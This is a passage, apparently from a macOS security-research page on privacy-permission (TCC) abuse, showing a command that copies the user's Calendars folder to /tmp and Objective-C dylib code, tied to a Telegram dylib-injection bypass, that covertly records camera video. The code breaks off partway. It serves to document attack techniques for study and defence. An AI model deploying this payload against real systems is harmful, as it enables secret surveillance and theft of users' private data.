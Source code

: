 ```bash
cp -r "$HOME/Library/Calendars" "/tmp/calendars"
```
{% endtab %}
{% endtabs %}

### Camera

* **Entitlement**: `com.apple.security.device.camera`
* **TCC**: `kTCCServiceCamera`

{% tabs %}
{% tab title="ObjetiveC - Record" %}
Record a 3s video and save it in **`/tmp/recording.mov`**

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from: https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;
- (void)startRecording;
- (void)stopRecording;
@end
@implementation VideoRecorder
- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}
- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
    AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
    NSError *error;
    self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];
    if (error) {
        NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
        return;
    }
    if ([self.captureSession canAddInput:self.videoDeviceInput]) {
        [self.captureSession addInput:self.videoDeviceInput];
    }
    self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];
    if ([self.captureSession canAddOutput:self.movieFileOutput]) {
        [self.captureSession addOutput:self.movieFileOutput];
    }
}
- (void)startRecording {
    [self.captureSession startRunning];
    NSString *outputFilePath = @"/tmp/recording.mov";
    NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
    [self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
    NSLog(@"Recording started");
}
- (void)stopRecording {
    [self.movieFileOutput stopRecording];
```